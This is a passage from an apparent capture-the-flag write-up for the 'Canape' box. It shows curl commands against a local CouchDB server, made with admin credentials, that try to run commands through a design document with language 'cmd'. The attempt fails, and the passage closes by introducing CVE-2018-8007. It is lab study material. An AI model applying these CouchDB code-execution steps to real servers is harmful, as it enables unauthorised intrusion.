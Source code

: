 Now, we should be able to create a db, and then a document in that db, and the request it with a view that maps our query\_server to get execution.

Create db and document:

```

www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
["_global_changes","_metadata","_replicator","_users","god","passwords","simpsons","vultest"]
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df'
{"ok":true}
www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
["_global_changes","_metadata","_replicator","_users","df","passwords","simpsons"]

www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
{"ok":true,"id":"zero","rev":"1-967a00dff5e02add41819138abb3284d"}

```

Request it in a view. The db will complain about headers, but if we work with it, we can get a bit further:

```

www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}'
{"error":"bad_request","reason":"Referer header required."}

www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}' -H "Referer: http://127.0.0.1:5984
{"error":"bad_request","reason":"Referer header must match host."}

www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}' -H "Referer: http://localhost:5984"
{"error":"bad_content_type","reason":"Content-Type must be multipart/form-data"}

www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}' -H "Referer: http://localhost:5984" -H "Content-Type: multipart/form-data"
{"error":"case_clause","reason":"undefined","ref":627893255}

```

At this point, I am stuck. An undefined “case\_clause” error wasn’t too Googleable. And this isn’t really a path for this box anyway. If you know why it’s breaking here, please leave a comment!

#### Successful CVE-2018-8007 With root Help

In writing this post, I found a new CVE had been released for CouchDB from mdsec, [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/). It also requires writes to the `local.ini` file, so it isn’t a useful option for Canape. But since I’ve already made it writable as root, let’s see if we can get it to work.
